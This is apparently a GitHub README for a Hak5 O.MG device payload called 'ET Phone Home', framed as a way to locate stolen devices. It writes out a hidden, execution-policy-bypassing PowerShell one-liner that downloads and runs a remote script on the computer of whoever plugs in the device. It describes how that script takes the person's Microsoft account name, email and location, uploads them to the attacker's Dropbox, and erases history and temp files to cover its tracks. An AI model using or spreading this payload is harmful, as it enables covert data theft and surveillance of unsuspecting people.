 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-AcidBurn/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# OMG ET Phone Home

A script I put together to locate your stolen devices, or your "stolen" baited devices

## Description

This program is meant to locate your devices. Save the execution file on the boot partition of your devices and when someone plugs it into their computer
Using a one liner in the run box a script will be downloaded and executed that grabs the Name and email of the associated microsoft account and the 
latitude and longitude of where the device was activated. This information is stored in a text document that is then uploaded to your dropbox. 
Finally the end of the script will delete the runbox and powershell history and delete the files in the TMP Folder and Recycle Bin. 

## Getting Started

### Dependencies

* DropBox - Your Shared link for the intended file
* Windows 7,10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Your device is plugged into the targets computer
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory if your intended wifi network is not detected with the
  geofencing options
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
* The OMG device will attempt to detect the Wifi Access point you designated, if it does not.. 
* A one liner in the run box will download and execute the ET-Phone-Home Script 
* This script will get the Name and Email associated with the microsoft account of the persons computer your device connected to 
* The latitude and longitude of where the device was when it was activated will also be collected 
* This gathered information will be saved to a text file in the TMP Directory 
* That file will be uploaded to your DropBox cloud storage 

Something Like What you see below will be in your cloud storage:

NAME
EMAIL 
LATITUDE AND LONGITUDE

Jakoby

jakoby@example.com

 Latitude  Longitude
 --------  ---------
37.778919 -122.416313

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

Kalani


<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-ET-Phone-Home)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)



<p align="right">(<a href="#top">back to top</a>)</p>
